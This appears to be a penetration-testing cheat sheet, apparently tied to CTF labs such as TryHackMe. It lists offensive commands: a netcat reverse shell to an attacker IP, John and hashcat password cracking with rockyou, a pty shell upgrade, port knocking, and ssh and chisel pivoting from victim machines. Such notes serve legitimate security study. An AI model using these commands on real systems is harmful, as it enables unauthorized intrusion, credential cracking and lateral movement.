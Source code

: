 ### Cisco router password cracker

https://github.com/axcheron/cisco\_pwdecrypt\
https://www.ifm.net.nz/cookbooks/cisco-ios-enable-secret-password-cracker.html

### Netcat

Listener (on attacker machine) and reverse shell command

```
nc -lnvp [PORT]
nc [IP_ADDR] [PORT] -e /bin/sh    # reverse shell
l = listen; n = ip addresses only, no DNS lookup; v = verbose; p = local port
```

### John

```
john [hash_file] --format=Raw-SHA1 --wordlist=/usr/share/wordlists/rockyou.txt
```

### Hashcat

```
hashcat -a 3 -m 0 [HASH_FILE] /usr/share/wordlists/rockyou.txt    # -a 3 bruteforce attack; -m 0 MD5 mode
```

Ref: https://hashcat.net/wiki/doku.php?id=example\_hashes

### Python

```python
python3 'import pty;pty.spawn("/bin/bash");'
```

### Port Knocking

```
systemctl start knockd
knock [IP_ADDR] [PORT1] [PORT2] [PORT3] -d [DELAY MILLISEC]
```

### Docker

```
cat /proc/net/arp
```

### Pivoting

```
nc -vv -z 10.1.1.1 1-65535 2>&1 | grep "succeeded"
ssh -N -D 127.0.0.1:9999 sean@10.11.1.251
---------Chisel---------
Reverse proxy:
On kali: 
./chisel server -p 9999 --reverse &
On victim/windows:
chisel.exe client [KALI_IP]:9999 R:socks &

Forward proxy:
On kali: 
./chisel client [VICTIM_IP]:8080 9999:socks
On victim/windows:
chisel.exe server -p 8080 --socks5
#   https://tryhackme.com/room/wreath
```
